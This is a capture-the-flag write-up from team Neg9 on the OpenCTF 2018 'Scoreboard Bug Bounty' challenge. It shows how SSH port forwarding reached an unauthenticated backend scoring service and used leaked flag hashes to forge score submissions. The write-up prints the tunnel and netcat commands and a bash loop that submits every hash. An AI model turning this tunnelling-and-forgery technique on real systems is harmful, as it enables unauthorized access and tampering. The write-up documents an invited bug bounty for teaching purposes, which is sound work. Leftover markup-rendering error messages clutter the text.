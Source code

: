 ```yaml
---
title: "OpenCTF 2018 - Scoreboard Bug Bounty Writeup"
slug: "openctf-2018-scoreboard-bug-bounty-writeup"
date: "2018-08-15 10:06:19.140572"
author_name: "craSH"
author_email: "crash@neg9.org"
draft: false
toc: false
images:
---
```


Scoreboard Bug Bounty - 1337

- DEFCON 26 @Open_CTF

- 2018-08-11

- Solved by Neg9 [craSH, tecknicaltom, reidb]

{language=python}
~~~~~~~~
SCOREBOARD BUG BOUNTY IS OPEN. COME AT US BR0!!! V& OUT!!! https://scoreboard.openctf.com/scoreboardbugbounty-dd9dd662cb9895a2353f6c463120b9eb7fed2bfb
~~~~~~~~

Scoreboard Server: scoreboard.openctf.com

The Scoreboard server is running an SSH server, which is the primary method teams use to interact with it. Each team has a shell account, and the users' shell is set to be `interact.py` from the above source archive.

There were several issues with the scoreboard system configuration, code, and how the organizers released the code, which when combined, resulted in the ability of a team to score all possible challenges for themselves without leaving any trace of doing so, and by not using the intended `interact.py` method of scoring.

- Issue 1: sshd is configured to allow port forwarding/dynamic proxying.

- Issue 2: `collect_keys.py` accepts connections without authentication, and it does not log connections made to it to syslog like `interact.py` does.

- Issue 3: The included SQLite database (`central.db`) included all (SHA512) hashes of the flags. This hash value is what the backend `collect_keys.py` takes in addition to team name and challenge ID to register a scoring event.

As such, you can directly connect to the backend and submit a known hash for a question to a team.

One could connect to the scoreboard as such to open a socket on the players local machine on port 41337 which is a tunnel to the backend service `collect_keys.py` running on the scoreboard:

"System Message: ERROR/3 (<string>:, line 26)"
Error in "code" directive:
maximum 1 argument(s) allowed, 3 supplied.

{language=python}
~~~~~~~~
.. code:: ssh -L41337:localhost:41337 neg9@scoreboard.openctf.com

~~~~~~~~

And in another terminal, one could then connect to the `collect_keys.py` service as follows:

"System Message: ERROR/3 (<string>:, line 30)"
Error in "code" directive:
maximum 1 argument(s) allowed, 3 supplied.

{language=python}
~~~~~~~~
.. code:: nc localhost 41337

~~~~~~~~

This would yield the service authentication string (lol) and wait to be written to:

"System Message: ERROR/3 (<string>:, line 34)"
Error in "code" directive:
maximum 1 argument(s) allowed, 2 supplied.

{language=python}
~~~~~~~~
.. code:: lol goatse

~~~~~~~~

At this point, the service expects a scoring event message in the following format:

"System Message: ERROR/3 (<string>:, line 38)"
Content block expected for the "code" directive; none found.

{language=python}
~~~~~~~~
.. code:: <Team_Name>,<Question_ID>,<Flag_SHA512_Hex>

~~~~~~~~

For example - here is the string to submit to score question ID 15 (this scoreboard bug bounty challenge) for team neg9:

"System Message: ERROR/3 (<string>:, line 42)"
Content block expected for the "code" directive; none found.

{language=python}
~~~~~~~~
.. code:: neg9,15,40a2475624d82487a9ded98fc661fd9dde15e02973a5280a8b4b76fc81e41a123190604848fa1d23b181a17b3303e184588211b81bef71e58ef8e26b7f300eb6

~~~~~~~~

As we have all hashes in the database provided, we can script up scoring for all questions. Here is the database schema:

{language=python}
~~~~~~~~
CREATE TABLE questions(challenge_name text, tags text, point_value integer, answer_hash text, question text, solved integer, open integer, qualification);
CREATE TABLE team_score(team_name text, challenge_name text, point_value integer, answer_hash text, time_solved text, first integer, PRIMARY KEY(team_name, challenge_name, point_value, answer_hash) ON CONFLICT IGNORE);
~~~~~~~~

And for demonstration, here is the row for this challenge:

{language=python}
~~~~~~~~
sqlite> select * from questions where challenge_name like '%bug%';
Scoreboard Bug Bounty|Kajer scoreboard|1337|40a2475624d82487a9ded98fc661fd9dde15e02973a5280a8b4b76fc81e41a123190604848fa1d23b181a17b3303e184588211b81bef71e58ef8e26b7f300eb6|Find an 0-day in our scoreboard. Source is here: https://pastebin.com/nVR8gEih
~~~~~~~~

We expeditiously grabbed all of the hashes from the dump and put them in a file to work with.

The following nested for loop would submit all hashes for neg9 (we extracted just the hash values and placed them in hashes.txt):

"System Message: ERROR/3 (<string>:, line 63)"
Error in "code" directive:
maximum 1 argument(s) allowed, 20 supplied.

{language=python}
~~~~~~~~
.. code:: for hash in $(cat hashes.txt); do for id in {1..100}; do echo "neg9,${id},${hash}" | nc localhost 41337; done ; done

~~~~~~~~

We made a POC of this with the question ID 15, for the scoreboard bug bounty, and we were successfully awarded **1337** points. The organizers quickly disabled SSH port forwarding/tunneling at this point, and we were not able to score for the other flags in this manner. Good work :)
